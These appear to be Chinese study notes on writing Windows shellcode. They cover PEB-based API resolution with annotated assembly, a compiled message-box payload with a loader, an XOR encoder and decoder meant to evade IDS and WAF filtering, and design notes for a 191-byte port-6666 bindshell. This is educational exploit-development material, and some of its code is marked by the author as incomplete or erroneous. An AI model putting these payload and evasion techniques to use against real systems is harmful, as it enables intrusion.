push 0x1e380a6a 	;hash of MessageBoxA
push 0x4fd18963 	;hash of ExitProcess
push 0x0c917432 	;hash of LoadLibraryA
mov esi,esp 		;esi = addr of first function hash
lea edi,[esi-0xc] 	;edi = addr to start writing function 
```

然后我们需要抬高栈顶，保护 shellcode 不被入栈数据破坏。
```asm
;make some stack space
xor ebx,ebx
mov bh, 0x04
sub esp,ebx

```

按照之前的思路，定位 kernel32.dll的代码如下：

```asm
;find base addr of kernel32.dll
mov ebx, fs:[edx+0x30]	;ebx = address of PEB
mov ecx, [ebx + 0x0c] 	;ecx = pointer to loader data
mov ecx, [ecx + 0x1c] 	;ecx = first entry in initialisation
 						;order list
mov ecx, [ecx] 			;ecx = second entry in list
 						;(kernel32.dll) 
mov ebp, [ecx + 0x08]   ;ebp = base address of kernel32.dll 
```

定位API的流程如下图所示：


最终实现代码如下（不完整？？？）：
```C
#include <stdio.h>

void main()
{
    _asm{
			CLD    ;CLEAR FLAG DF
			;STORE HASH
			PUSH 0x1e380a6a    ;hash value of MessageBoxA
			PUSH 0x4fd18963    ;hash value of ExitProcess
			PUSH 0x0c917432    ;hash value of LoadLibraryA
			MOV  ESI, ESP      ;ESI = ADDR of first function hash
			LEA  EDI, [ESP-0xC] ;EDI = ADDR of start writing function

			;make some stack space
			XOR EBX, EBX
			MOV BH, 0x04
			SUB ESP, EBX

			;push a pointer to "user32.dll" 
			MOV EBX,0x6C6C        ; “ll” ascii
			PUSH EBX
			MOV EBX, 0x32332E64    ; “32.d” ascii
			PUSH EBX
			PUSH 0x72657375   ; “USER” ascii
			PUSH ESP			

			;make some stack space
			XOR EBX, EBX
			MOV EBX, 0x04
			SUB ESP, EBX

			XOR EDX,EDX
			;find base addr of kernel32.dll
			MOV EBX, FS:[EDX+0x30]    ; ebx = addr of PEB . 
									  ; 手工分析：
									  ; EDX已清零，所以即使用FS选择子找到GDT中的段基址后，加上0x30即可。
									  ; 使用windbg用户态下键入命令```dg fs``` ，可知段基址为 0x7ffdf000 ；
									  ; 使用命令```dd 0x7ffdf000```,可以偏移+0x30处的PEB入口地址 0x7ffdc000 -> ebx。
			MOV ECX, [EBX + 0x0C]    ;ecx = pointer to loader data
									  ; 手工分析：使用命令```dd 0x7ffdf00c```发现地址 0x00251ea0 -> ecx

			MOV ECX, [ECX + 0x1C]    ;ecx = first entry in initialization order list
			                         ; 手工分析：00251f58->ecx  这个是 InInitializationOrderModuleList 链表，第一个应该是ntdll.dll的地址
									 ; 可以尝试用dependency walker验证
			MOV ECX, [ECX]           ;ecx = second entry in list KERNEL32.DLL
			                         ; 00252020->ecx
			MOV EBP, [ECX+0X08]      ;EBP = base address of kernel32.dll
			                         ; 发现7c800000 ->EBP  这是kernel32.dll的基址。

    	find_lib_functions:
			LODSD		; load a dword into EAX from [ESI] and if df=0,ESI++;else df=1 ESI--
						; 之前的程序将LoadLibrary字符串的hash值 0x0c917432 压栈，并将esp->esi,所以esi指向该字符串。
						; eax=0x0c917432 esi=esi+4
			CMP EAX,0x1e380a6a       ;if or not MessageBoxA 
			                         ;不是就会跳到find_functions,首次执行必然不是。
			JNE find_functions
			XCHG EAX,EBP    ;save current hash
			                ;找到后eax经比较会为0，而ebp中存放了kernel32.dll的基址 7c800000
			;这里原程序有错误
			;没有将“user32.dll”的指针压入堆栈。
			;PUSH 75 73 65 72 33 32 2E 646C 6C  user32.dll
			CALL [edi - 0x8]  ;LoadLibraryA
			XCHG EAX,EBP      ;RESTORE CURRENT HASH, and update ebp with base address of user32.dll

		find_functions:
		    PUSHAD  ; PUSH EAX,ECX,EDX,EBX,ESP,EBP,ESI,EDI in turns ,esp=esp-8*32
			MOV EAX, [EBP+0X3c]    ;eax = start of PE header 
			                       ;kernel32.dll的首地址是 7c800000（即DOS头）
								   ;7c800000+03c存放了新pe头即NT文件头的偏移地址,一般是0xF0
								   ;0xf0->EAX
			MOV ECX, [EBP+EAX+0x78] ;ecx = relative offset of export table
									;windows xp 中为 0x7c800000+0x0f+0x78=0x7c8000168, 然后将导出表offset值 0x262c->ECX
			ADD ECX, ebp    ;ecx = absolute addr of export table
			                ;winxp中导出表绝对地址为 0x7c800000+0x262c=0x7c80262c
			MOV EBX,[ECX + 0x20]    ;ebx = relative offset of names table
									;winxp导出表里名字列表地址存放在0x7c800000+0x262c+0x20 地址为0x3538
			ADD EBX,EBP    ;ebx = absolute addr of names table
			               ; 物理地址 0x7c800000+0x3538 ,EBX指向了导出函数名字列表的第一个。
			XOR EDI,EDI    ;edi will count through the funtions
			               ;edi作为计数器或循环指针

		next_funtion_loop:
		    INC EDI
			MOV ESI, [EBX+EDI*4]  ;esi = relative offset of current function name 
			ADD ESI,EBP           ;esi = absolute addr of current function name 
			CDQ                   ;dl will hold hash (we know eax is small) 
			                      ;扩展EAX符号位至EDX ,即把EDX的所有位都设成EAX最高位的值。当前程序中EAX之前保存过地址，最高位应为0.

		hash_loop:
			movsx eax, byte ptr[esi] ;将esi+esi指向的字符逐字节写入EAX，并扩展符号
			                         ;例如esi指向字符串“AddAtomA”，那么会将‘A’的ascii码41写入al，并将其符号位扩展至eax其余高位。
			cmp al,ah                ;导出函数名字中间使用了00作为间隔，若00被存入al意味着一个名字完整结束了
			jz compare_hash          ;一个导出函数名完成hash，则比较hash值
			                         ;否则继续计算hash
			ror edx,7                ;dl中存放hash结果digest值，hash算法是第一步是自己循环逻辑移位
			add edx,eax              
			inc esi                  
			jmp hash_loop            ;循环移位，累加后就可以得到digest值，当al=ah时
		
		compare_hash:
			cmp edx, [esp + 0x1c] ;compare to the requested hash (saved on stack from pushad)
			                      ;esp+0x1c 感觉指向了压入堆栈的eax值，而自pushad，eax里存放了LoadLibraryA的hash值

			jnz next_function_loop ;不相等则在读取一个函数名进行hash
			                       ;第一次条件不满足 则是找到LoadLibraryA
			mov ebx, [ecx + 0x24] ;ebx = relative offset of ordinals table
			                      ;ecx中记录了kernel32.dll导出表的物理地址0x7c80262c
								  ;导出表地址+0x24指的是 ordinal table 的偏移地址（相对于kernel32.dll的基址）
								  ;例如xp中找到此处地址为0x441c，ebx=0x441c .
								  ;那么ordinal table地址为0x7c80441c
			add ebx, ebp          ;ebx = absolute addr of ordinals table
			                      ;ebp中为0x7c800000，所以ebx=0x7c80441c
			mov di, [ebx + 2 * edi] ; 使用di获得16位的ordinal。DI = ordinal number of matched function
			                      ; edi 记录了LoadLibraryA的index为244，对应ordinal的index也是244.
								  ;这里为什么还要乘2？？因为ordinal表中一个ordinal占16位，而地址是为每个字节8位建立的
								  ;所以edi*2正好拿到与名字对应的ordinal，有了ordinal就可以直接调用函数了。
							
			mov ebx, [ecx + 0x1c] ;ebx = relative offset of address table
			                      ;找到导出表记录的函数地址表，这个表在导出表地址+1c处。EBX=地址表的ROA
								  ;winxp 中 ebx=2654
			add ebx, ebp          ;ebx = absolute addr of address table
			                      ;ebp中为0x7c800000，ebx=7c802654
			add ebp, [ebx + 4 * edi] ;add to ebp (base addr of module) the relative offset of matched function
			                         ;winxp调试时 7c802654+4*244=7c802f64 ,内容 00001d7b 
									 ;所以ebp= 0x7c801d7b 即为LoadLiabraryA地址
			xchg eax, ebp            ;move func addr into eax
			                         ;地址放入eax，是默认调用方法
			pop edi                  ;edi is last onto stack in pushad
			                         ;此时edi会被赋值为“user”的指针0x12ff1c
			stosd                    ;write function addr to [edi] and increment edi
			                ;stosb, stosw, stosd。这三个指令把al/ ax/ eax的内容存储到edi指向的内存单元中，
							;同时edi的值根据方向标志的值增加或者减少
							;把存放“user”字符的堆栈替换为LoadLiabraryA地址0x7c801d7b ？？
			push edi        ;edi内容为指向堆栈内“32”字符的指针0x12ff20
			                ;此时edi指向了
			popad           ;restore registers loop until we reach end of last hash
			                ;出栈顺序EDI，ESI,EBP,ESP,EBX,EDX,ECX,EAX
			cmp eax,0x1e380a6a
			jne find_lib_functions
		function_call:
			xor ebx,ebx
			push ebx ;cut string
			push 0x74736577
			push 0x6C696166 ;push failwest
			mov eax,esp ;load address of failwest
			push ebx
			push eax
			push eax
			push ebx
			call [edi - 0x04] ;call MessageboxA
			push ebx
			call [edi - 0x08] ;call ExitProcess
			nop
			nop
			nop
			nop


	}

}
```

我自己从写了一遍：
```C++
void main(){
    _asm{
        start:
            NOP
            NOP
            NOP
            NOP
            NOP
            NOP
            NOP
            CLD ;clear Direct flag

        push_strhash:
            PUSH 0x1e380a6a     ;"MessageBoxA"'s hash ,search end condition
            PUSH 0x4fd18963     ;"ExitProcess"'s hash
            PUSH 0x0c917432     ;"LoadLibrary"'s hash
            MOV ESI, ESP        ; ESI = pointer to  0x0c917432 and ESI is a loop index
            LEA EDI, [ESI-0x0c] ; prepare to store 3 functions' address ,and EDI is a loop index
            XOR EBX,EBX
            MOV BH,0x04
            SUB ESP, EBX        ; expand 400 bytes stack space 
            PUSH 0x00003233     ;"32" ASCII
            PUSH 0x72657375     ;"user" ASCII
            PUSH ESP            ;"user32" pointer
            XOR EDX, EDX        ; clear EDX

        locate_kernel32:
            MOV EBX, fs:[EDX + 0x30]    ;get PEB pointer   maybe 7ffd9000 
            MOV ECX, [EBX+0x0c]   ;get LDR pointer   maybe 00241ea0
            MOV ECX, [ECX+0x1c]   ;get InInitializationOrderModuleList pointer ,aka first list entry: ntdll.dll 00241f58
            MOV ECX, [ECX]        ;get second list entry pointer
            MOV EBP, [ECX+0x08]   ;set EBP = kernel32.dll pointer     
            
        find_lib_funtion:   
            LODSD                   ;set EAX = [ESI] ,IF DF=0 ESI++;ELSE ESI--
            CMP EAX, 0x1e380a6a     ;ifornot end
            JNZ find_function       ;go on to find function addr and push it.
            XCHG EAX,EBP            ;EBP = current hash and EAX will change soon.
            CALL [EDI-0x08]         ;call LoadLibrary and return user32'address into EAX
            XCHG EAX,EBP            ;EBP = user32'address 

        find_function:
            PUSHAD                 ; save EAX,ECX,EDX,EBX,ESP,EBP,ESI,EDI.
            MOV EAX, [EBP + 0x3c]   ;set EAX = start of PE NT header 
            MOV ECX, [EBP + EAX + 0x78];ecx = relative offset of export table 	
            MOV EBX, [EBP+ECX+0x20];set EBX = EXPORT NAME TABLE pointer 
            ADD ECX, EBP     		; ecx = absolute addr of export table 
			MOV EBX, [ecx + 0x20] 		; ebx = relative offset of names table 
            ADD EBX, EBP           ; set EBX = EXPORT NAME TABLE abslute address 
            XOR EDI, EDI           ; set EDI = index initialize value 0

       next_function_loop:
            INC EDI                ; 
            MOV ESI, [EBX+EDI*4]   ; set ESI = function name's offset
            ADD ESI, EBP           ; set ESI = function name's aboslute address            
            CDQ                    ; set EDX = 0 

        hash_calc:
            MOVSX EAX, BYTE ptr [ESI]
            CMP AL, AH
            JZ  compare_hash
            ROR EDX, 7
            ADD EDX,EAX
            INC ESI
            JMP hash_calc

        compare_hash:
            CMP EDX, [ESP+0x1C]     ;if EDX'value euqals to str hash by push EAX
            JNZ next_function_loop       

            MOV EBX, [ECX+0x24]     ;set EBX = export table's ordinal table offset
            ADD EBX, EBP            ;set EBX = aboslute address of ordinal table
            MOV DI,  [EBX + EDI*2]  ;set DI = ordinal of desired export function in export table
            MOV EBX, [ECX + 0x1c]   ;set EBX = export table's function address offset
            ADD EBX, EBP
            ADD EBP, [EBX + EDI*4]  ;set EBP = desired function's aboslute address
            XCHG EAX, EBP           ;set EAX = desired function's aboslute address
            POP EDI                 ;EDI = desired function address pointer
            STOSD                   ;save address into [EDI] in stack and EDI++
            PUSH EDI
            POPAD
            CMP EAX, 0x1e380a6a     ;if end
            JNZ find_lib_funtion    ;not end
            
          
        show_message:
            xor ebx,ebx
			push ebx 
			push 0x74736577
			push 0x6C696166
			mov eax,esp
			push ebx
			push eax
			push eax
			push ebx
			call [edi - 0x04]  ;
			push ebx
			call [edi - 0x08]
            NOP
            NOP
            NOP
            NOP
            NOP
            NOP
            NOP

	}//_asm end

}
```

上述代码编译后的机器码如下：
```
\x90\x90\x90\x90\x90\x90\x90\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x68\x33\x32\x00\x00\x68\x75\x73\x65\x72\x54\x33\xD2\x64:\x8B\x5A\x30\x8B\x4B\x0C\x8B\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x8B\x5C\x0D\x20\x03\xCD\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66:\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA5\x33\xDB\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90
```

上述这种保存在字符数组中的 shellcode 已经可以轻易地在 exploit 程序中使用了，也可以用前边的shellcode 装载程序单独加载运行。

```c++
popup_general = "\x90\x90\x90\x90\x90\x90\x90\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x68\x33\x32\x00\x00\x68\x75\x73\x65\x72\x54\x33\xD2\x64:\x8B\x5A\x30\x8B\x4B\x0C\x8B\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x8B\x5C\x0D\x20\x03\xCD\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66:\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA5\x33\xDB\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90"
void main()
{
	__asm
	{
		lea eax, popup_general
		push eax
		ret
	}
} 
```

这样，一段考虑了跨平台、健壮性、稳定性、通用性等各方面因素的高质量 shellcode 就生成了。本书后面章节将在实验中反复使用这段 shellcode。经过反复的实验，这段 shellcode 在各种溢出利用场景下都表现出色。

通过本节的介绍，可以看出即使是经验丰富的汇编程序员，想要写出高质量的 shellcode也得着实花一翻工夫。事实上，若非真的有特殊需要，即使是经验丰富的 hacker 也不会总是自己编写 shellcode。大多数情况下，从 Internet 上可以得到许多经典的 shellcode。另外 MetaSploit通用漏洞测试架构 下的 payload 库中，目前已经包含了包括绑定端口、网马 downloader、远程 shell、任意命令执行等在内的 104 种不同功能的经典 shellcode。通过简单的参数配置，可以轻易导出 C 语言格式、Perl 语言格式、ruby 语言格式、原始十六进制格式等形式的 shellcode。我们会在后面章节中专门介绍 MataSploit 的使用和开发。

### shellcode 编码技术

#### 为何要编码

很多漏洞利用场景中，shellcode的输入和传输受到限制。

例如：
- 所有字符串函数都会对NULL字节进行限制。需要选择特殊的指令来避免在shellcode中直接出现NULL字节（使用ASCII函数）或字（unicode函数）
- 某些函数要求shellcode必须为可见字符的ASCII 值或 Unicode 值。此时若仍然通过挑选指令的办法控制 shellcode 的值的话，将会给开发带来很大困难。开发汇编shellcode已经不易了，再处理这些几乎不可能。
- 网络传输中，IDS、WAF会限制常见的shellcode。

为了突破封锁，安全完整的将shellcode送入target的stack，简单的方法就是将shellcode进行编码，就像是易容术。思路如下：
- 编写shellcode
- 编码
- 构造简短的解码程序
- 整合shellcode和解码程序
- 投放payload（encoded shellcode）


当 exploit 成功时，shellcode 顶端的解码程序首先运行，它会在内存中将真正的 shellcode 还原成原来的样子，然后执行之。这种对 shellcode 编码的方法和软件加壳的原理非常类似。

这样，我们只需要专注于几条解码指令，使其符合限制条件就行，相对于直接关注于整段shellcode 来说使问题简化了很多。下面我们就来实践这样一种方法。

题外话：很多病毒也会采取类似加壳的办法来躲避杀毒软件的查杀：首先对自身编码，若直接查看病毒文件的代码节会发现只有几条用于解码的指令，其余都是无效指令；当PE 装入开始运行时，解码器将真正的代码指令还原出来，并运行之、实施破坏活动；杀毒软件将一种特征记录之后，病毒开发者只需要使用新的编码算法（密钥）重新对 PE 文件编码，即可躲过查杀。然而自古正邪不两立，近年来杀毒软件开始普遍采用内存杀毒的办法来增加查杀力度，就是等病毒装载完成并已还原出真面目的时候进行查杀。

#### 变形shellcode

下面演示一个简单shellcode加壳过程。其中包括：
- 原始shellcode编码
- 开发解码器
- 将解码器和经过编码的shellcode送入装载器运行调试

最简单的编码过程莫过于异或运算，因为解码也同样简单。。我们可以编写程序将已有 shellcode 的每个字节与特定的数据进行异或运算，使得整个 shellcode 的内容达到要求。在编码时需要注意以下几点：
- 用于异或的特定数据相当于加密的密钥，在选取时不能与shellcode已有字节相同，否则会产生NULL字节。
- 可以选用多个密钥，分别对shellcode的不同区域进行编码，当然这会增加复杂性。
- 可以对shellcode进行多轮编码运算。

下面实现一个基于异或的简单编码器：
```C++
#include <stdio.h>
#include <string.h>
#include <malloc.h>
#include <stdlib.h>


void encoder(char* input,unsigned char key, int display_flag)
{
    //A simple encode demo
    int i=0,len=0;
	FILE * fp;
    unsigned char * output;
    len = strlen(input);
    output=(unsigned char *)malloc(len+1);
    if(!output)
    {
        printf("memory error.\n");
        exit(0);
    }
    //encode the shellcode
    for(i=0;i<len;i++)
    {
        output[i] = input[i]^key;
    }
    if(!(fp=fopen("encode.txt","w+")))
    {
        printf("output file create error.\n");
        exit(0);
    }
    fprintf(fp,"\"");
    for(i=0;i<len;i++)
    {
        fprintf(fp,"\\x%0.2x", output[i]);
        if((i+1)%16==0)
        {
            fprintf(fp,"\"\n\"");
        }
    }
    fprintf(fp,"\";");
    fclose(fp);
    printf("dump the encoded shellcode to encode.txt OK!\n");
    if(display_flag)//print to screen
    {
        for(i=0;i<len;i++)
        {
            printf("%0.2x ",output[i]);
            if((i+1)%16==0)
            {
                printf("\n");
            }
        }
    }
    free(output); 
}
```
encoder（）函数会使用传入的 key 参数对输入的数据逐一异或，并将其整理成十六进制的形式 dump 进一个名为 encode.txt 的文件中。这里对第四节中的通用 shellcode 进行编码，密钥采用 0x44，在 main 中直接调用 encoder(popup_general,0x44 ,1 )，会得到经过编码的 shellcode.

对于解码，我们可以用以下几条指令实现。

```c++
void main()
{
	_asm
	{
		add eax, 0x14 //0x14 is decoder length,eax=shellcode 的起始地址
		xor ecx,ecx
	decode_loop:
		mov bl,[eax+ecx]
		xor bl, 0x44 // 0x44 is the key
		mov [eax+ecx],bl
		inc ecx
		cmp bl,0x90 //在 shellcode 末尾放上一个字节的 0x90 作为结束符
		jne decode_loop
	}
} 
```

对于这个解码器，有以下要注意的地方：
- 解码器不能单独运行，需要用vc6将其编译，然后用olldbg提取出二进制机器码，加在经编码后shellcode之前，一起运行。
- 解码器默认再shellcode开始执行时，EAX已经对准了shellcode的起始地址。
- 解码器将认为shellcode的最后亿字节为0x90.

以上是一个最简单的 shellcode 编码过程，用于演示开发 shellcode 编码器、解码器的原理和方法。实际上，除了自己开发之外，一个更简单的给 shellcode 编码、解码的方法是利用MetaSploit。目前，MetaSploit 所提供的编码和解码算法总共有二十余种（包括本节介绍的单字节异或算法），已经能够满足绝大多数安全测试的需要。

### shellcode 瘦身

#### 瘦身大法

除了对内容的限制，shellcode的长度也将是其性能的衡量指标。短小精悍是我们的目标，可以塞进狭小的内存缝隙，适应多种缓冲区组织策略，有更强的适应性。

要短小精悍需要很多编程技巧。本节将实现一个能够绑定端口，等待外来连接的shellcode为例，介绍精简代码的编程技巧。本节大部分内容源于 NGS 公司的著名安全专家 Dafydd S tuttard 的文章“Writing Sm all shellcode”。本节将涉及比较多的汇编知识和技术，供有一定汇编语言开发基础的朋友学习参考。如果您想专注于漏洞分析和利用方面的知识。

当 shellcode 的尺寸缩短到一定程度之后，每减少一个字节，我们都需要额外做更多努力。在实际开发之前，首先我们应当清楚 shellcode 中的指令是用什么办法“节省”出来的。

##### 精挑细选“短指令”

x86 指令集中指令所对应的机器码的长短是不一样的，有时候功能相似的指令的机器码长度差异会很大。这里给出一些非常有用的单字节指令。

- xchg eax,reg 交换 eax 和其他寄存器中的值
- lodsd 把 esi 指向的一个 dword 装入 eax，并且增加 esi
- lodsb 把 esi 指向的一个 byte 装入 al，并且增加 esi
- stosd
- stosb
- pushad/popad 从栈中存储/恢复所有寄存器的值
- cdq 用 edx 把 eax 扩展成四字。这条指令在 eax<0x80000000 时可用作 mov edx ,NULL 

##### 事半功倍——复合指令功能强
用一条指令完成两件事情，例如：
- XCHG
- LODS
- STOS

##### 妙用内存——另类API调用方式

- 有些API中许多参数都是NULL，通常的做法是多次向堆栈中压入NULL。可以换个思路，把栈中的一大片区域一次性设置为NULL，再调用API时就可以只压入那些不为NULL的参数，这会节省不少指令。
- 有些API中需要一个很大的机构体做参数的情况。实验发现，大多数情况下，健壮的API都是可以允许两个结构体相互重叠，尤其是当一个参数是输入结构体（in），另一个用作接收的结构体（out）时，如果让参数指向同一个（in）结构体，函数也能正确执行。这时，仅用一字节指令push esp就可以代替一大段初始化out结构体的代码。

##### 代码也可以当数据

很多 Windows 的 API 都会要求输入参数是一种特定的数据类型，或者要求特定的取值区间。虽然如此，通过实验我们发现，大多数 API 出于函数健壮性的考虑，在实现时已经对非法参数做出了正确处理。例如，我们经常见到 API 的参数是一个结构体指针和一个指明结构体大小的值，而用于指明结构体大小的参数只要足够大，就不会对函数执行造成任何影响。如果在编写 shellcode 时，发现栈区恰好已经有一个很大的数值，哪怕它是指令码，我们也可以把它的值当成数据直接使用，从而节省掉一条参数压栈的指令。总之，在开发 shellcode 的时候，代码可以是数据，数据也可以是代码！


##### 变废为宝

普通程序员不会直接与系统栈打交道，通常与栈沟通的总是编译器。在编译器看来，栈仅仅是用来保护函数调用断点、暂存函数输入参数和返回值等的场所。但是，作为一个 shellcode的开发人员，必须富有更多的想象力。栈顶之上的数据在逻辑上视为废弃数据，但其物理内容往往并未遭到破坏。如果栈顶之上有需要的数据，不妨调整 esp 的值将栈顶抬高，把它们保护起来以便后面使用，这样能节省出很多用作数据初始化的指令。这与我们前边讲的抬高栈帧保护 shellcode 有相似之处。

##### 打破常规——巧用寄存器
按照默认的函数调用约定，在调用 API 时有些寄存器（如 EBP、ESI、EDI 等）总是被保存在栈中。把函数调用信息存在寄存器中而不是存在栈中会给 shellcode 带来很多好处。比如大多数函数的运行过程中都不会使用 EBP 寄存器，故我们可以打破常规，直接使用 EBP 来保存数据，而不是把数据存在栈中。

一些 x86 的寄存器有着自己特殊的用途。有的指令要求只能使用特定的寄存器；有的指令使用特定寄存器时的机器码要比使用其他寄存器短。此外，如果寄存器中含有调用函数时需要的数值，尽管不是立刻要调用这些函数，可能还是要考虑提前把寄存器压入栈内以备后用，以免到时候还得另用指令重新获取。

##### 取其精华，去其糟粕——永恒的压缩法宝，hash
实用的 shellcode 通常需要超过 200 甚至 300 字节的机器码，所以对原始的二进制 shellcode进行编码或压缩是很值得的。上节实验中在搜索 API 函数名时，并没有在 shellcode 中存储原始的函数名，而是使用了函数名的摘要。在需要的 API 比较多的情况下，这样能够节省不少shellcode 的篇幅。

#### 选择恰当的hash算法

回到我们尝试完成的例子，我们希望要实现的shellcode功能如下：
- 绑定一个shell到6666端口
- 允许外部的网络连接使用这个shell
- 程序能够正常退出。

这个shellcode 应该有较强的通用性，能在winxp，win2k，win2k3上运行开发中要解决的问题有：
- 不同操作系统中，用之前搜索导出名字表和序数表的方法定位所需API函数的地址。
- 调用这些API，完成shellcode的功能。

下面主要考虑的是优化hash算法，精简shellcode。

实现bindshell需要的函数包括：
- kernel32.dll中的导出函数
  - LoadLibraryA
  - CreateProcessA
  - ExitProcess
- ws2_32.dll中的导出函数
  - WSAStartup 需要初始化 winsock。
  - WSASocketA 创建套结字。
  - bind 绑定套结字到本地端口。
  - listen 监听外部连接。
  - accept 处理一个外部连接。


我们将搜索相关库函数的导出表，查找导出表中的函数名，最终确定函数入口地址。在搜索操作中将采用比较 hash 摘要的方法，而不是直接比较函数名。其中，选择合适的 hash 算法将是这种方法的关键，也是缩短 shellcode 代码的关键。

下面是在选择这种算法时所考虑的因素。
- 所需的每个库文件（dll）内所有导出函数的函数名经过hash后的摘要不能有重复（也称“碰撞”），当然如果知道在一定搜索顺序下，总会先找到所需的函数，那么碰撞条件可以放宽。
- 函数名经过hash后得到的摘要应该尽可能短。
  - 可以认为单字节的摘要是最佳的。kernel32中有900多个函数，8bit有256种区别，考虑到hash碰撞可以一定程度上容忍，经过精心选择hash算法，这个长度的摘要值有时是可行的。另一方面，如果要把hash值缩短到小于8位，需要额外的代码进行字节对齐，代价可能是更多的处理代码。得不偿失。
- hash算法实现所需的代码篇幅最短。
  - **牢记于心，x86中实现相似功能的操作码长短往往相差很多。** ，例如，```rol cl,1 ```指令码2字节，而```rol cl，2```指令码3字节，而```rol cx,2```指令码4字节。所以要精心优化，选取恰当的指令码，可以很大程度瘦身shellcode。
- 经过hash后的摘要可等价于指令的机器码，即把数据也当作代码使用。
  - 如果所需函数的hash值等价于nop指令，称其位“准nop指令”，那么就可以把这些hash值放在shellcode的开头。这样布置shellcode可以省去跳过这段摘要的跳转指令，处理器可以把这段hash摘要当作指令，顺序执行过去。此时，数据和代码是重叠的。
  - 注意，准nop指令并不仅仅指0x90，而是相对于实际代码的上下文而言的，是不影响后续代码执行的指令。比如此时ecx中值无关紧要，那么INC ecx就类似nop。

考虑到会有很多hash算法供我们选择，可以写一段程序来测试这些算法中那些最符合要求。
- 首先选取一部分hash需要的x86指令（xor、add、rol等）用来构造hash算法
- 然后把DLL中导出函数的函数名一个个送入hash函数，得到8bit的摘要
- 按照避免碰撞、尽可能简短、算法精炼三个标准对算法进行筛选。


在可被两条双字节指令实现的 hash 算法中，可以找到 6 种符合基本条件。经过人工核查，发现其中一种 hash 算法恰能够满足代码和数据重叠的要求。

题外话：尽管这里的 hash 算法适用于目前所有基于 NT 的 Windows 版本，但是如果将来的 Windows 版本在动态链接库中引进新的导出函数，打破了容忍 hash 碰撞的限制（新导出函数的 hash 值与我们所需函数的 hash 值一样，并且在我们所需的函数之前定义），那么我们就得重新寻找新的 hash 算法了。

最终的 hash 算法如下（esi 指向当前被 hash 的函数名；edx 被初始化为 null）。
```asm
	; if esi = hashed function name 
	xor edx,edx 或者 CDQ ;if eax<0x8000
hash_calc:
	lodsb	;al = byte ptr [esi]  and esi++
	xor al,0x71	;0x71 is the key
	sub	dl,al	;dl = current digest
	cmp al,0x71 ;继续循环计算，直到遇到字符串结尾的null
	jne hash_calc
```

通过这个 hash 函数，原函数名、hash 值、hash 值对应的指令三者之间的关系如表：
|函 数 名| hash 后得到的摘要| 摘要对应的等价于 nop 的指令|
|-|-|-|
|LoadLibraryA| 0x59| pop ecx|
|CreateProcessA| 0x81|or ecx, 0x203062d3|
|ExitProcess| 0xc9|or ecx, 0x203062d3|
|WSAStartup| 0xd3|or ecx, 0x203062d3|
|WSASocketA| 0x62|or ecx, 0x203062d3|
|bind| 0x30|or ecx, 0x203062d3|
|listen| 0x20|or ecx, 0x203062d3|
|accept| 0x41| inc ecx |

这里顺便看一下字符串“cmd”紧跟在 hash 值后面会对程序执行有什么影响。在调用 CreateProcessA 的时候，我们需要这个字符串作参数来得到一个命令行的 shell。已知这个调用不需要后缀“.exe”，并且对字符串的要求是大小写无关的，也就是说，“cMd”与“cmD”是
等价的，如下表所示。


ASCII 字值及其机器码对应的指令

|ASCII 字符| ASCII 值（机器码）| 机器码对应的指令|
|-|-|-|
|C (大写) |0x43 |inc ebx|
|M （大写） |0x4d |dec ebp|
|d （小写）| 0x64| FS:| 

0x64 对应的是取指前缀，就是告诉处理器取指令的时候去 FS 段中的地址里取。由于大多数情况只是要执行下一条指令，所以前缀是多余的，并且会被处理器忽略。因此，字符串“CMd” 也将被处理器当做指令“不疼不痒”地执行过去。

#### 191 个字节的 bindshell
在优化完 hash 算法之后，还需要把 hash 过的函数名变成真正的函数地址。有两种思路：
- 一次解析出所有函数的入口地址，然后保存在栈中以供后面使用；
- 在每次使用到这个函数的时候再去解析它。

这两种方案各有利弊，需要视具体情况而定，这里采用第一种方案。我们准备把解析出的函数地址存于栈中 shellcode 的“上”边（内存低址）。由于是通过调用 ExitProcess 退出程序，所以不用担心堆栈平衡等内存细节。

一共需要8个函数地址，每个4字节，共32字节。我们将从hash摘要前的24个字节的地方开始存储函数地址，意味着最后两个地址将写入hash摘要区域，而且刚好在字符串“cmd”之前结束。8个函数名的hash值共占用8字节。这样重叠布置，是为了可以用寄存器中指向“cmd”字符串的指针，来调用CreateProcessA。

之后用```lodsb```指令来读取hash值、```stosd```指令来存储函数地址，为此需要把esi指向hash值、edi指向函数地址的存储位置。由于这时eax中的值相对较小，指向栈中某个位置，所以可以使用CDQ给EDX清零。

我们需要的函数来自两个动态链接库：kernel32.dll和ws2_32.dll，由于ws2_32.dll还没有装载，而每一个windows的进程都会装kernel32.dll，所以先从它开始。这里还是用上一节查询PEB的方法动态寻找所需函数。

